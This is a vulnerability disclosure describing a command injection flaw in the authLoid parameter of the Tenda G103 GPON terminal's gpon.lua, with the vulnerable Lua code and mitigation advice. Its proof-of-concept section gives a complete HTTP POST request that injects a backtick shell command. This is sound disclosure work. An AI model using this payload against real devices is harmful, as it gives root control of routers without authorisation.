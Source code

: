 # Tenda G103 Command Injection Vulnerability in `authLoid` Parameter of `action_set_net_settings` (gpon.lua)

## Overview

A command injection vulnerability exists in the `action_set_net_settings` function within the `gpon.lua` file of Tenda G103 GPON optical network terminals. This vulnerability is caused by improper sanitization of the `authLoid` parameter, which is directly concatenated into system commands without validation. Authenticated attackers can exploit this flaw to execute arbitrary system commands with root privileges, potentially leading to full device compromise.

The environment can be simulated using FirmAE:



![FirmAE Emulation 1](./imgs/1.png)



![FirmAE Emulation 2](./imgs/2.png)

## Details



*   **Vendor**: Tenda

*   **Product**: Tenda G103 GPON Optical Network Terminal

*   **Firmware Version**: US\_G103V1.0la\_V1.0.0.5\_TDC01

*   **Firmware Download**: [https://tenda.com.cn/material/show/2615](https://tenda.com.cn/material/show/2615)

*   **Affected Component**: `gpon.lua` (LuCI controller)

*   **Affected Function**: `action_set_net_settings`

*   **Affected Parameter**: `authLoid`

*   **Vulnerability Type**: Command Injection

*   **Impact**: Arbitrary command execution, LOID configuration tampering, sensitive data leakage, or complete device takeover

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

## Vulnerability Analysis

The `action_set_net_settings` function handles the `authLoid` parameter, which is used to configure the LOID (Lightwave Optical Network Identifier) for GPON authentication. A critical security flaw exists: the `authLoid` parameter is passed directly to system commands such as `fw_setenv` and `uci` without sanitization or input validation.

Key vulnerable code in `gpon.lua`:



![Vulnerable Code Snippet](./imgs/3.png)



```
local authLoid = luci.http.formvalue("authLoid")

if authLoid then

&#x20;   luci.util.exec(string.format("fw\_setenv omci\_loid \\"%s\\"", authLoid))

&#x20;   luci.util.exec(string.format("uci set gpon.ploam.nloid=\\"%s\\"", authLoid))

end&#x20;
```

Attackers can inject arbitrary commands by embedding shell metacharacters (e.g., backticks `` ` ``, semicolons `;`, or logical operators `&&`) in the `authLoid` parameter. These characters are not filtered, allowing the injected payload to be parsed and executed by the system shell when the concatenated commands are run.

## Proof of Concept (PoC)

### Execute `touch` to Create a Test File



```
POST /cgi-bin/luci/;stok=c64c61744085716b924f3c034266e7c1/admin/gpon/set-net-settings HTTP/1.1
Host: 192.168.0.1
Content-Length: 42
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.0.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.0.1/cgi-bin/luci/;stok=c64c61744085716b924f3c034266e7c1/admin/system/
Accept-Encoding: gzip, deflate, br
Cookie: isLogin=true; isLogin=true; sysauth=ca14c877a3df6cdc740bf4bbef3f02c1; sysauth=; repeatTimes=0; isLogin=true
Connection: keep-alive

authLoid=1`touch$IFS/tmp/authLoid.txt`

```

#### Execution Steps:



1.  Send the POST request above with a valid `stok` (session token) and authentication cookies.

2.  Access the device (via CLI, telnet, or another injected command) and verify the existence of `/tmp/authLoid.txt`.

#### Expected Result:

The file `/tmp/authLoid.txt` is created, confirming successful execution of the injected `touch` command.



![PoC Result 1](./imgs/4.png)



![PoC Result 2](./imgs/5.png)

## Mitigation Recommendations



1.  **Input Validation**: Restrict `authLoid` to a safe character set (e.g., alphanumerics) and enforce length limits consistent with LOID standards.

2.  **Command Escaping**: Use `luci.util.shellquote` to escape the parameter before inserting it into system commands (e.g., `string.format("fw_setenv omci_loid \"%s\"", luci.util.shellquote(authLoid))`).

3.  **Secure Configuration Handling**: Use LuCI’s built-in UCI API for configuration management instead of direct system command calls.

4.  **Least Privilege**: Run processes executing these commands with minimal required privileges to limit exploitation impact.

> （注：文档部分内容可能由 AI 生成）
